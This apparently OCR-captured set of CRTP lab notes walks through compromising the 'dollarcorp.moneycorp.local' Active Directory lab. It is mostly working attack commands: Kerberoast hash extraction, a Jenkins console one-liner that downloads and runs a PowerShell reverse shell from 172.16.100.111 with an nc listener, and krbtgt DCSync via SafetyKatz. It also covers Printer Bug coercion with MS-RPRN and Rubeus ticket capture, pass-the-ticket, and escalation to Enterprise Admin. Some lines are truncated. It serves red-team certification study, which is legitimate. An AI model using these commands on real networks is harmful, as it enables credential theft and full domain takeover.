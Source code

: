 ```powershell
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
Legacy system
Jenkins
disable firewall
use HFS to run web server
# in the Jenkins console script
powershell iex (iwr -UseBasicParsing http://172.16.100.111/Invoke-PowerShellTcp.ps1);Power -Reverse -IPAddress 172.16.100.111 -Port
# attacker machine
.\nc64.exe -lvp 443
CRTP 18
DCSync Attack
# Load PowerView.ps1
Get-ObjectAcl "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ? {($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectory
# check if the user have the permision to run the attack :
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'rep
# get the hashes of krbtgt user or any other user with SafetyKatz.exe:
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
Unconstrained Delegation
# Find a server in the dcorp domain where Unconstrained Delegation is enabled.
. C:\AD\Tools\PowerView.ps1
Get-DomainComputer -Unconstrained | select -ExpandProperty name
# try with appadmin. Run the below command from an elevated command prompt:
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:appadmin /domain:dollarcorp.moneycorp.local /aes256:68
# Run the below commands in the new process:
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
# copy Rubeus to dcorp-appsrv to abuse Printer Bug!
# Printer Bug - Copy Rubeus using xcopy and execute using winrs
echo F | xcopy C:\AD\Tools\Rubeus.exe \\dcorp-appsrv\C$\Users\Public\Rubeus.exe /Y
# Run Rubeus in listener mode
winrs -r:dcorp-appsrv cmd
C:\Users\Public\Rubeus.exe monitor /targetuser:DCORP-DC$ /interval:5 /nowrap
# On the student VM, use MS-RPRN to force authentication from dcorp-dc$
C:\AD\Tools\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
# On the Rubeus listener, we can see the TGT of dcorp-dc$
# Copy the base64 encoded ticket and use it with Rubeus on student VM.
# Run the below command from an elevated shell
C:\AD\Tools\Rubeus.exe ptt /ticket:doIGRTCCBkGgAwIBBaEDAgEWooIFGjCCBRZhggUSMIIFDqADAgEFoRwbGkRPTExBUkNPUlAuTU9ORVlDT1JQLkxPQ0FMoi8wLaAD
# run DCSync from this process:
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
# Escalation to Enterprise Admins
# To get Enterprise Admin privileges, we need to force authentication from mcorp-dc. Run the below
# command to listern for mcorp-dc$ tickets on dcorp-appsrv:
winrs -r:dcorp-appsrv cmd
C:\Users\Public\Rubeus.exe monitor /targetuser:MCORP-DC$ /interval:5 /nowrap
# Use MS-RPRN on the student VM to trigger authentication from mcorp-dc to dcorp-appsrv:
C:\AD\Tools\MS-RPRN.exe \\mcorp-dc.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
# As previously, copy the base64 encoded ticket and use it with Rubeus on student VM. Run the below
# command from an elevated shell as the SafetyKatz command that we will use for DCSync needs to be
# run from an elevated process:
C:\AD\Tools\Rubeus.exe ptt /ticket:doIF1jCCBdKgAwIBBaEDAgEWooIE0TCCBM1hggTJMIIExaADAgEFoREbD01PTkVZQ09SUC5MT0NBTKIkMCKgAwIBAqEbMBkbBmty
# Now, we can run DCSync from this process:
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
Constrained Delegation
```